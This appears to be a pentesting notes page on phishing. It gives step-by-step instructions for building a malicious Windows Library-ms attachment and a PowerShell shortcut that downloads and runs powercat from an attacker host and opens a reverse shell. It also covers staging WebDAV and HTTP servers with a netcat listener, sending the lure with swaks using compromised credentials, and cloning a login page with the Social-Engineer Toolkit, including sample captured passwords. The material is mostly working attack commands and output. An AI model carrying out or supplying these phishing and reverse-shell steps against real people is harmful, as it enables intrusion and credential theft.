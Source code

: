 # Phising

## Attachment

{% tabs %}
{% tab title="1. Malicious File" %}
Create a malicious attachment (`config.Library-ms`) and include the attacker host's IP address within the `<url>` tags (line 15):

{% hint style="warning" %}
Create the attachment on a Windows host!

* `Library-ms` is a Windows-specific file format, and it must follow a specific XML structure with Windows metadata.&#x20;
* If it is created it on Linux, even with the same contents, it might not be recognized or executed properly by Windows.
{% endhint %}

{% code title="config.Library-ms" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://172.16.42.42</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
{% endcode %}
{% endtab %}

{% tab title="2. Shortcut" %}
Create a malicious PowerShell shortcut pointing first to an attacker-controlled HTTP server and then to an attacker-controlled listener:

{% code overflow="wrap" %}
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker_IP>:8000/powercat.ps1');powercat -c <attacker_IP> -p 4444 -e powershell"
```
{% endcode %}
{% endtab %}

{% tab title="3. Transfer & Setup" %}
Transfer both files to the attacking host under `/webdav` and start the server from within that directory:

```bash
# List the directory's contents 
$ ls
config.Library-ms  powershell.lnk

# Start the WEBDAV server
$ sudo wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```

Start the HTTP server and the listener:

```bash
# List the directory's contents 
$ ls
powercat.ps1

# Start the HTTP server
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
# Start the listener
$ sudo nc -lnvp 4444
```
{% endtab %}

{% tab title="4. Email" %}
Send the phising email along with the malicious attachment:

{% code overflow="wrap" %}
```bash
# Send the phising email to jim
$ swaks --to target@example.com --from compromized-email@example.com --header "Subject: Important!!!" --body @body.txt --attach @config.Library-ms --server 192.168.X.189 --auth LOGIN --auth-user compromized-email@example.com --auth-password 'Pass123!'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Site Clone

The [Social Engineering Toolkit](https://github.com/trustedsec/social-engineer-toolkit) can be used to automate the process:

{% tabs %}
{% tab title="1. seautomate" %}
We can manually run `setoolkit` and select the options _Social-Engineering Attacks_ → _Website Attack Vectors_ > _Credential Harvester Attack_ > _Site Cloner_.&#x20;

We can also the above choices and required input using `seautomate`:

{% code overflow="wrap" %}
```bash
$ cat set_commands.txt
1
2
3
2
10.10.14.15
https://example.com/login.aspx

$ sudo ./seautomate set_commands.txt
...
[*] Cloning the website: https://example.com/login.aspx
[*] This could take a little bit...

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```
{% endcode %}
{% endtab %}

{% tab title="2. Email" %}
We can then send our phising email:

{% code overflow="wrap" %}
```bash
swaks --to sales@domain.com --from it@domain.com --server 10.13.14.15 --port 25 --body @email_body.txt
```
{% endcode %}
{% endtab %}

{% tab title="3. Creds" %}
```bash
$ sudo ./seautomate set_commands.txt
...
[*] Information will be displayed to you as it arrives below:
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: LoginType=Explicit
POSSIBLE USERNAME FIELD FOUND: user=username123
POSSIBLE PASSWORD FIELD FOUND: password=Password123!
PARAM: domain=LAB.LOCAL
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
```
{% endtab %}
{% endtabs %}
